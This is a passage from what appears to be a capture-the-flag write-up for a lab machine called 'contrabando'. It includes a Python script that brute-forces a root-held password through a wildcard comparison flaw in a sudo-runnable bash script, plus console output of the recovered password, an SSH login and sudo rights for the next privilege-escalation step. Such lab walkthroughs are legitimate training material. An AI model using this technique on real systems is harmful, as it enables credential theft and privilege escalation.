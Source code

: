 ```python
import subprocess
import string

charset = string.ascii_letters + string.digits
password = ""

while True:
    found = False
    for char in charset:
        attempt = password + char + "*"
        print(f"\r[+] Password: {password+char}", end="")
        proc = subprocess.Popen(
            ["sudo", "/usr/bin/bash", "/usr/bin/vault"],
            stdin=subprocess.PIPE,
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            text=True
        )
        stdout, stderr = proc.communicate(input=attempt + "\n")
        if "Password matched!" in stdout:
            password += char
            found = True
            break
    if not found:
        break

print(f"\r[+] Final Password: {password}")
```
{: file="brute.py" }

Running the script reveals the password from `/root/password`.

```console
hansolo@contrabando:~$ python3 brute.py
[+] Final Password: EQ[REDACTED]fZ
```

### Python2 RCE

While the password does not work for the root account, it works for the `hansolo` user, which we can use with **SSH** to get a better shell.

```console
$ ssh hansolo@10.10.158.77
hansolo@contrabando:~$ id
uid=1000(hansolo) gid=1000(hansolo) groups=1000(hansolo)
```

With the password, we can now also run the second **sudo** command.

```console
hansolo@contrabando:~$ sudo -l
Matching Defaults entries for hansolo on contrabando:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hansolo may run the following commands on contrabando:
    (root) NOPASSWD: /usr/bin/bash /usr/bin/vault
    (root) /usr/bin/python* /opt/generator/app.py
```
